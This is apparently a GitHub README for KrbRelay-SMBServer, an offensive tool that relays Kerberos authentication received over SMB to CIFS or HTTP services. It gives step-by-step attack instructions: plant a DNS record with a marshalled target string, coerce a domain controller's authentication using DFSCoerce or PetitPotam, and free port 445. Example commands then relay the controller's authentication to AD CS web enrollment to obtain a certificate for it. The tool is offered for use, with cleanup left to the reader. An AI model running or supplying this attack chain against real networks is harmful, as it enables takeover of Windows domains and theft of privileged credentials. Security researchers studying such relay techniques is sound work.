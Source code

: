 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server_name you want to relay the kerberos AP-REQ as: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA*  and mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
#In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA


For detailed usage and command line switches refer to original krbrelay tool
````

<img width="848" alt="Screenshot 2024-10-07 113416" src="https://github.com/user-attachments/assets/5a91b65b-6f87-4f4f-935d-8283f587cd81">

<img width="908" alt="Screenshot 2024-10-07 113227" src="https://github.com/user-attachments/assets/4b3a0be1-7fa7-4de6-aa5a-d645151483af">
